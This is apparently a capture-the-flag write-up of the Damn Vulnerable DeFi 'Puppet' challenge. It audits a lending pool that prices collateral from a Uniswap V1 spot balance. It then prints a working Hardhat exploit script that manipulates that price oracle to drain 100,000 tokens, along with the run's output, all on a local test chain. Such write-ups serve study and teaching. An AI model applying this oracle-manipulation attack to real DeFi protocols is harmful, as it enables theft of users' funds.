

Wargame Provider: [@tinchoabbate](https://twitter.com/tinchoabbate)

# **Challenge #8 - Puppet**

There's a huge lending pool borrowing Damn Valuable Tokens 
(DVTs), where you first need to deposit twice the borrow amount in ETH 
as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/puppet)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/puppet/puppet.challenge.js)

# Code Audit

## Transaction Flow

### Dependency Pattern

```solidity
UniswapV1Exchange
UniswapV1Factory
```

- It can be confirmed that the CAMM model liquidity pool exchange method is used based on the uniswap protocol v1.

### Setup flow

**Calculate ETH ↔ ERC20 Pair Input Price (**Buy Amount (Sell Order))

- In the case of a sales order (correct input), the purchase amount (output) is calculated as follows.

```solidity
function calculateTokenToEthInputPrice(tokensSold, tokensInReserve, etherInReserve) {
  return tokensSold.mul(ethers.BigNumber.from('997')).mul(etherInReserve).div(
      (tokensInReserve.mul(ethers.BigNumber.from('1000')).add(tokensSold.mul(ethers.BigNumber.from('997'))))
  )
}
```

- Uniswap has a separate exchange contract for each ERC20 token.
- This exchange holds both ETH and related ERC20. Users can trade on the reserve at any time. Reserves are pooled between a decentralized network of liquidity providers that collect fees for every transaction.
- The price is done automatically according to the `x * y = k` market-making formula, and the price is automatically adjusted according to the relative size of the two reserves and the size of the incoming trade.
- As all tokens share ETH as a common pair, they are used as intermediary assets for direct transactions between all ERC20 ⇄ ERC20 pairs.
- The parameters required to determine the price when trading ETH and ERC20 tokens are as follows.


```
1. ETH reserve size of the ERC20 exchange
2. ERC20 reserve size of the ERC20 exchange
3. Amount sold (input) or amount bought (output)
```

**State Variable (ERC20, ETH Balance setup)**

```tsx
// Uniswap exchange will start with 10 DVT and 10 ETH in liquidity
const UNISWAP_INITIAL_TOKEN_RESERVE = 10 ether
const UNISWAP_INITIAL_ETH_RESERVE = 10 ether

const ATTACKER_INITIAL_TOKEN_BALANCE = 1000 ether
const ATTACKER_INITIAL_ETH_BALANCE = 25 ether
const POOL_INITIAL_TOKEN_BALANCE = 100000 ether

await ethers.provider.send("hardhat_setBalance", [
    attacker.address,
    "0x15af1d78b58c40000", // 25 ETH
]);
expect(
    await ethers.provider.getBalance(attacker.address)
).to.equal(ATTACKER_INITIAL_ETH_BALANCE);
```

- Proceed with sending the value to the attacker's address on the hardhat local chain according to the first specified amount.

**Contract or Account Deploy (deployer, attacker)**

```tsx
<deployer account>

- UniswapV1Exchange
- UniswapV1Factory
- DamnValuableToken
- PuppetPool
```

- The deployer deploys the four contracts and allocates each initial instance.

```tsx
this.token = await DamnValuableTokenFactory.deploy();

this.exchangeTemplate = await UniswapExchangeFactory.deploy();

this.uniswapFactory = await UniswapFactoryFactory.deploy();
await this.uniswapFactory.initializeFactory(this.exchangeTemplate.address);
```

- It is used to exchange within the uniswap protocol, and based on the exchange contracta to be used in the uniswap factory contract, the instance work in the `initializeFactory` contract is carried out.

```tsx
let tx = await this.uniswapFactory.createExchange(this.token.address, { gasLimit: 1e6 });
const { events } = await tx.wait();
this.uniswapExchange = await UniswapExchangeFactory.attach(events[0].args.exchange);

this.lendingPool = await PuppetPoolFactory.deploy(
    this.token.address,
    this.uniswapExchange.address
);

await this.token.approve(
    this.uniswapExchange.address,
    UNISWAP_INITIAL_TOKEN_RESERVE
);
await this.uniswapExchange.addLiquidity(
    0,                                                          // min_liquidity
    UNISWAP_INITIAL_TOKEN_RESERVE,
    (await ethers.provider.getBlock('latest')).timestamp * 2,   // deadline
    { value: UNISWAP_INITIAL_ETH_RESERVE, gasLimit: 1e6 }
);
```

- Create a `new exchange` for the token and connect the distributed `exchange` address with the contract to complete the instance work.
- Since the function is implemented using the Uniswap protocol while distributing a custom `PuppetPool` Contract, a token and a uniswapExchange Contract address are assigned during the initial constructor work.
- After setting access to the corresponding `uniswapExchange` contract based on 10 ether, add liquidity pool.

```solidity
@payable
addLiquidity(
    min_liquidity: uint256,
    max_tokens: uint256,
    deadline: uint256
): uint256
```

- The liquidity pool pattern is implemented based on the uniswapV1Exchange specification, and the specification criteria simply set the minimum liquidity, ERC 20 maximum token value, and liquidity transaction deadline as follows.
- For things like deadlines, many Uniswap features include transaction deadlines, which set a time at which transactions can no longer be executed. It is used because it restricts miners from holding signed transactions for long periods of time and executing them according to market movements, and also reduces uncertainty about transactions that take longer to execute due to gas price issues.

### Liquidity pool exchange and calculation test work

```tsx
expect(
    await this.uniswapExchange.getTokenToEthInputPrice(
        ethers.utils.parseEther('1'),
        { gasLimit: 1e6 }
    )
).to.be.eq(
    calculateTokenToEthInputPrice(
        ethers.utils.parseEther('1'),
        UNISWAP_INITIAL_TOKEN_RESERVE,
        UNISWAP_INITIAL_ETH_RESERVE
    )
);
```

- Work to check whether exchange between pair tokens is successful within the distributed liquidity pool
- After checking the quantity of tokens to be sold based on the `getTokenToEthInputPrice` method, the returned data, the amount of ETH that can be purchased, must match the value calculated based on the `calculateTokenToEthInputPrice` method implemented arbitrarily.

### Token transfer process

```tsx
await this.token.transfer(attacker.address, ATTACKER_INITIAL_TOKEN_BALANCE);
await this.token.transfer(this.lendingPool.address, POOL_INITIAL_TOKEN_BALANCE);
```

- Allocating the balance of the tokens presented at the beginning,

> PuppetPool.sol
> 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";

/**
* @title PuppetPool
* @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
*/
contract PuppetPool is ReentrancyGuard {

  using Address for address payable;

  mapping(address => uint256) public deposits;
  address public immutable uniswapPair;
  DamnValuableToken public immutable token;
  
  event Borrowed(address indexed account, uint256 depositRequired, uint256 borrowAmount);

  constructor (address tokenAddress, address uniswapPairAddress) {
      token = DamnValuableToken(tokenAddress);
      uniswapPair = uniswapPairAddress;
  }

  // Allows borrowing `borrowAmount` of tokens by first depositing two times their value in ETH
  function borrow(uint256 borrowAmount) public payable nonReentrant {
      uint256 depositRequired = calculateDepositRequired(borrowAmount);
      
      require(msg.value >= depositRequired, "Not depositing enough collateral");
      
      if (msg.value > depositRequired) {
          payable(msg.sender).sendValue(msg.value - depositRequired);
      }

      deposits[msg.sender] = deposits[msg.sender] + depositRequired;

      // Fails if the pool doesn't have enough tokens in liquidity
      require(token.transfer(msg.sender, borrowAmount), "Transfer failed");

      emit Borrowed(msg.sender, depositRequired, borrowAmount);
  }

  function calculateDepositRequired(uint256 amount) public view returns (uint256) {
      return amount * _computeOraclePrice() * 2 / 10 ** 18;
  }

  function _computeOraclePrice() private view returns (uint256) {
      // calculates the price of the token in wei according to Uniswap pair
      return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
  }

}
```

### State Variable && Event

```solidity
using Address for address payable;

mapping(address => uint256) public deposits;
address public immutable uniswapPair;
DamnValuableToken public immutable token;

event Borrowed(address indexed account, uint256 depositRequired, uint256 borrowAmount);
```
- Manage liquidity pool deposits for each user based on the `deposits` mapping structure
- Dependency contract instance assignment, variable declaration and constantization work
- When the `Borrowed` function is called, the `address indexed account, uint256 depositRequired, uint256 borrowAmount` data event query progress work performed in the internal logic

### Functions

**constructor**

```solidity
constructor (address tokenAddress, address uniswapPairAddress) {
    token = DamnValuableToken(tokenAddress);
    uniswapPair = uniswapPairAddress;
}
```

- Constructor instance operation ERC20 token contract and uniswap V1 protocol processing

**_computeOraclePrice**

```solidity
function _computeOraclePrice() private view returns (uint256) {
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

- Calculate the token price in wei according to the Uniswap Pair.
- Calculate DVT-ETH token price with Uniswap V1 Exchange operation.

**calculateDepositRequired**

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * 2 / 10 ** 18;
}
```

- Introduce this formula to divide the quarter for the deposit request to calculate the liquidity pool.
- Depending on the `amoun` factor, the value changes, and you can see that the Oracle price and double the value are unconditionally calculated.

**borrow**

```solidity
function borrow(uint256 borrowAmount) public payable nonReentrant {
    uint256 depositRequired = calculateDepositRequired(borrowAmount);
    
    require(msg.value >= depositRequired, "Not depositing enough collateral");
    
    if (msg.value > depositRequired) {
        payable(msg.sender).sendValue(msg.value - depositRequired);
    }

    deposits[msg.sender] = deposits[msg.sender] + depositRequired;

    
    require(token.transfer(msg.sender, borrowAmount), "Transfer failed");

    emit Borrowed(msg.sender, depositRequired, borrowAmount);
}
```

- You can borrow the ‘borrowAmount’ of the token by first depositing double its value in ETH.

✅ If the pool does not have enough liquidity tokens, it will fail.

- If the balance of the user who made the current contract call is greater through the `depositRequired` check expression, the `msg.value - depositRequired` value is transferred to the `msg.sender`. Based on this, it can be inferred that the value of the user's transaction Ether is much more than the value to be borrowed, so it is an operation to return the remaining value.
- Update the deposits mapping data structure by assigning the calculated `depositRequired` value at this time.

✅ After sending the value as much as `borrowAmount` to `msg.sender`, event processing proceeds

# Vulnerability

- In `computeOraclePrice()`, the pool calculates the ETH-DVT ratio and checks the current exchange rate value. However, when performing the actual oracle price calculation, it can be seen that it is possible to purchase ETH in bulk from the pool to significantly lower the ratio of the loanable DVT token price.
- The attacker's goal is to steal all DVT tokens from the pool, and to borrow 100,000 DVT, he has to deposit double ETH as collateral under normal circumstances, and the attacker only has 25 ETH.
- If you need to return 1 from `_computeOraclePrice` when you deposit double ETH, this is only applicable when `uniswapPair.balance` and `token.balanceOf(uniswapPair)` are 1:1. By default, the current pool has 10 ETH and 10 DVT, so it unconditionally returns 1
- However, attackers can manipulate the Oracle Price calculation using flaws. If the exchange's ETH Balance (uniswapPair.balance) is 0, the result of the calculation of `uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair)` will be 0 or a very small number.
- In order to carry out this attack, the attacker must lower the ETH balance of Exchange Balance to a small number by exchanging his DVT token for ETH.
- In the state of converging to 0, all DVT tokens in the pool can be acquired based on the `borrow` function.

# Solve

```tsx
it('Exploit', async function () {
  const fromWei = (x) => web3.utils.fromWei(x);
  const _curInfo = async (status) => {
      

      console.log("\n" + status + "\n");
      console.log("[+] Oracle Calc Deposit Required")
      let _oracle = (await this.lendingPool.calculateDepositRequired(ethers.utils.parseEther("1")))
      console.log(fromWei(_oracle._hex))
      console.log("[+] Attacker ETH-DVT Pair Balance")
      let attacker_eth = await ethers.provider.getBalance(attacker.address);
      let attacker_dtv = await this.token.balanceOf(attacker.address);
      console.log(fromWei(attacker_eth._hex));    // attacker ETH
      console.log(fromWei(attacker_dtv._hex));  // attacker DVT
      console.log("[+] LendingPool ETH-DVT Pair Balance");
      let pool_eth = await ethers.provider.getBalance(this.lendingPool.address);
      let pool_dtv = await this.token.balanceOf(this.lendingPool.address);
      console.log(fromWei(pool_eth._hex));    // lendingPool ETH
      console.log(fromWei(pool_dtv._hex));  // lendingPool DVT
      console.log("[+] Uniswap Exchange ETH-DVT Pair Balance");
      let exchange_eth = await ethers.provider.getBalance(this.uniswapExchange.address);
      let exchange_dtv = await this.token.balanceOf(this.uniswapExchange.address);

      console.log(fromWei(exchange_eth._hex));    // exchange ETH
      console.log(fromWei(exchange_dtv._hex));  // exchange DVT
  }
  /** CODE YOUR EXPLOIT HERE */
  _curInfo("Initial");

  await this.token.connect(attacker).approve(
      this.uniswapExchange.address,
      ethers.utils.parseEther("990")
  );

  await this.uniswapExchange.connect(attacker).tokenToEthTransferInput(
      ethers.utils.parseEther("990"), // tokens_sold
      ethers.utils.parseEther("1"),   // min_eth
      (await ethers.provider.getBlock('latest')).timestamp * 2, attacker.address  // deadline
  );

  let _oraclePrice = ethers.BigNumber.from(
      await this.lendingPool.calculateDepositRequired(ethers.utils.parseEther("1"))
  );
  let muOraclePrice = _oraclePrice.mul(100000).add(1);

  await this.lendingPool.connect(attacker).borrow(ethers.utils.parseEther("100000"), { value: muOraclePrice });

  _curInfo("After exploit");

});
```

```tsx
yarn run v1.22.19
$ yarn hardhat test test/puppet/puppet.challenge.js
$ /Users/zer0luck/ctf/wargame/blockchain/defi-wargame/node_modules/.bin/hardhat test test/puppet/puppet.challenge.js
(node:27635) [DEP0147] DeprecationWarning: In future versions of Node.js, fs.rmdir(path, { recursive: true }) will be removed. Use fs.rm(path, { recursive: true }) instead
(Use `node --trace-deprecation ...` to show where the warning was created)

  [Challenge] Puppet

Initial

[+] Oracle Calc Deposit Required
2
[+] Attacker ETH-DVT Pair Balance
24.999941720374401652
1000
[+] LendingPool ETH-DVT Pair Balance
0
100000
[+] Uniswap Exchange ETH-DVT Pair Balance
0.100297884717611306
1000

After exploit

[+] Oracle Calc Deposit Required
    ✓ Exploit (50ms)
0.000200595769435222
[+] Attacker ETH-DVT Pair Balance
14.839905722874661761
100010
[+] LendingPool ETH-DVT Pair Balance
20.0595769435222
0
[+] Uniswap Exchange ETH-DVT Pair Balance
0.100297884717611306
1000

  1 passing (606ms)

✨  Done in 3.00s.
```


## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)

```toc
```